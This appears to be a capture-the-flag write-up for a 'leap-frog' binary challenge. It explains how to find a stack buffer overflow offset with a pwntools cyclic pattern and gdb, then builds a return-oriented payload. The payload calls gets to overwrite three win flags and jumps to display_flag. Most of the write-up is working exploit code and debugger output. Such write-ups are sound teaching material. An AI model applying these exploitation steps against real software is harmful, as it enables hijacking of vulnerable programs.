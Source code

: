 ## What do we know so far

Take a look at the source code.

* The flag is printed by ``display_flag`` function conditionally. We need to make ``win1 && win2 && win3`` true.
```
  if (win1 && win2 && win3) {
    printf("%s", flag);
    return;
  }
```
* The ``vuln`` is to take user input, good place to get started.
* ``leapA`` to control ``win1``, simply set it ``true``.
* ``leap2`` takes an argument ``arg_check``, clearly it needs to be ``0xDEADBEEF``, and ``win3`` to be ``true``.
* ``leap3`` to set ``win3`` to be ``true`` when ``win1 && !win1`` is ``true``, impossible.


## Padding

First of all, find out the correct padding for buffer overflow.
```
(gdb) r <<< $(python2 -c 'import pwn;print(pwn.cyclic(128))')
Starting program: /problems/leap-frog_2_b375af7c48bb686629be6dd928a46897/rop <<< $(python2 -c 'import pwn;print(pwn.cyclic(128))')
Enter your input> 
Program received signal SIGSEGV, Segmentation fault.
0x61616168 in ?? ()
(gdb) info stack
#0  0x61616168 in ?? ()
#1  0x61616169 in ?? ()
#2  0x6161616a in ?? ()
#3  0x6161616b in ?? ()
#4  0x6161616c in ?? ()
#5  0x6161616d in ?? ()
#6  0x6161616e in ?? ()
#7  0x6161616f in ?? ()
#8  0x61616170 in ?? ()
#9  0x61616171 in ?? ()
#10 0x61616172 in ?? ()
...
```
Now we can get the offset with ``cyclic_find``
```
    ofs = pwn.cyclic_find(pwn.p32(0x61616168)) # 28
```

## win1 && win2 && win3

The three leap functions to control each of them, but apparently we can't run through ``leap3`` to get it. Due to [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) we can't skip the impossible check by jumping. Can we set the them to ``true`` directly? ``gets``@plt can read from ``stdin`` and write to any writable segment memory, the ``winX`` located contiguously, so we can send ``\x01\x01\x01`` to set them all true.

```
    payload = b''
    elf = pwn.ELF(remote_binary, False)
    payload += pwn.p32(elf.sym['gets']) # gets@plt
    payload += pwn.p32(elf.sym['display_flag'])
    payload += pwn.p32(elf.sym['win1'])
    ...
    conn.writelineafter("Enter your input> ", payload)
    conn.writeline(b"\x01\x01\x01") # set win1, win2 and win3 to true
    ...
```

Read all the response to get the flag.
